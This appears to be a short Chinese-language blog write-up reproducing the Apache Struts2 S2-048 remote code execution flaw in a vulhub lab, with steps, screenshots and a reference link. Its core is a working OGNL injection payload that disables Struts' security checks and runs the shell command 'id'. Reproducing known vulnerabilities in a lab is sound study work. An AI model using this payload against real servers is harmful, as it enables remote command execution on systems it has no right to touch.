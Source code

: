 ```yaml
---
title: S2-048 远程代码执行漏洞
date: 2020-08-10 21:58:10
categories: 漏洞复现
tags: struts2
---
```


#### 影响版本

>2.0.0 - 2.3.32

<!--more-->

#### 复现过程

1. 访问**Integration/Struts 1 Integration**

   ![](http://cdn.laohuan.art/2020-08-10_21-37-48.png)

2. 填入POC

   ```java
   %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
   ```

   

3. 返回结果

   ![](http://cdn.laohuan.art/2020-08-10_21-38-08.png)

#### 参考链接

<https://github.com/vulhub/vulhub/blob/master/struts2/s2-048/README.zh-cn.md/>

